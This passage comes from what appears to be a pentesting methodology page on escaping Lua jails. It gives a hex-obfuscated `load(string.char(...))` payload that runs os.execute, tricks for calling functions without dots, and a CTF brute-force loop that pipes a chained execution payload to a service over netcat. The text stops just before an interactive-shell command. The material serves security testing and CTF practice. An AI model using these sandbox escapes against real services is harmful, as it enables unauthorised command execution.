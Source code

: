 {{#ref}}
../bypass-bash-restrictions/
{{#endref}}

## Python Jails

Tricks about escaping from python jails in the following page:

{{#ref}}
../../generic-methodologies-and-resources/python/bypass-python-sandboxes/
{{#endref}}

## Lua Jails

In this page you can find the global functions you have access to inside lua: [https://www.gammon.com.au/scripts/doc.php?general=lua_base](https://www.gammon.com.au/scripts/doc.php?general=lua_base)

**Eval with command execution:**

```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```

Some tricks to **call functions of a library without using dots**:

```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```

Enumerate functions of a library:

```bash
for k,v in pairs(string) do print(k,v) end
```

Note that every time you execute the previous one liner in a **different lua environment the order of the functions change**. Therefore if you need to execute one specific function you can perform a brute force attack loading different lua environments and calling the first function of le library:

```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```

**Get interactive lua shell**: If you are inside a limited lua shell you can get a new lua shell (and hopefully unlimited) calling:
